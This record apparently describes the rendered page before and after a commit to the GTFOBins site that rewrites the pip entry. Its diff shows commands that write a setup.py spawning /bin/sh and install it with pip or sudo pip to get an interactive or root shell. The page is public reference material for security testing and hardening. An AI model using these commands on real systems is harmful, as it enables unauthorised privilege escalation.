

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pip.md, in a window 1280 px wide. Shown: the top 614 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix pip to work in both Linux and macOS

```diff
--- a/_gtfobins/pip.md
+++ b/_gtfobins/pip.md
@@ -5,11 +5,11 @@ functions:
   execute-interactive:
     - code: |
         TF=$(mktemp -d)
-        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
+        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         pip install $TF
   sudo-enabled:
     - code: |
         TF=$(mktemp -d)
-        echo 'import os; os.dup2(0, 1); os.dup2(0, 2); os.execl("/bin/sh", "sh")' > $TF/setup.py
+        echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         sudo pip install $TF
 ---
```
